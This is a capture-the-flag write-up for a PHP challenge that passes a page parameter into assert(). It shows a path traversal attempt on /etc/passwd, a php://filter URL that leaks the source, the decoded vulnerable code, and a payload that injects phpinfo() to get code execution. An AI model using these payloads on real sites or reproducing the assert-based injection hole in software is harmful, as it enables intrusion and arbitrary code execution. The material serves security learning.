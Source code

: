 Navigating to http://challenge.nahamcon.com:31780/index.php?page=../../../../etc/passwd gives:

> HACKING DETECTED! PLEASE STOP THE HACKING PRETTY PLEASE

It seems that they detect the `..` characters, and return that if found. So that won't work. Looking at the challenge name, it seems that we need to be taking advantage of the PHP assert() function.

A quick google search for "PHP assert LFI" leads to [this page detailing the methodology](https://hydrasky.com/network-security/php-assert-vulnerable-to-local-file-inclusion/). Trying the URL to get the source code for the index page on our website,

```
http://challenge.nahamcon.com:31780/index.php?page=php://filter/convert.base64-encode/resource=index
```

we end up getting the source code:

```bash
PD9waHANCg0KaWYgKGlzc2V0KCRfR0VUWydwYWdlJ10pKSB7DQogICRwYWdlID0gJF9HRVRbJ3BhZ2UnXTsNCiAgJGZpbGUgPSAkcGFnZSAuICIucGhwIjsNCg0KICAvLyBTYXZpbmcgb3Vyc2VsdmVzIGZyb20gYW55IGtpbmQgb2YgaGFja2luZ3MgYW5kIGFsbA0KICBhc3NlcnQoInN0cnBvcygnJGZpbGUnLCAnLi4nKSA9PT0gZmFsc2UiKSBvciBkaWUoIkhBQ0tJTkcgREVURUNURUQhIFBMRUFTRSBTVE9QIFRIRSBIQUNLSU5HIFBSRVRUWSBQTEVBU0UiKTsNCiAgDQp9IGVsc2Ugew0KICAkZmlsZSA9ICJob21lLnBocCI7DQp9DQoNCmluY2x1ZGUoJGZpbGUpOw0KDQo/Pg0K
```

Which we can then base64 decode to see the source code for the index page:

```php
<?php

if (isset($_GET['page'])) {
  $page = $_GET['page'];
  $file = $page . ".php";

  // Saving ourselves from any kind of hackings and all
  assert("strpos('$file', '..') === false") or die("HACKING DETECTED! PLEASE STOP THE HACKING PRETTY PLEASE");

} else {
  $file = "home.php";
}

include($file);

?>
```

So indeed, they filter out `..` which confirms what we saw above. And it confirms that we should be exploiting that assert line that _saves them from any kind of hacking..._.

For example,

* `?page=%27).%20phpinfo();%20//`

Gives us the phpinfo page. We can now mostly get any arbitrary command we want through PHP, now its just a matter of finding the flag.
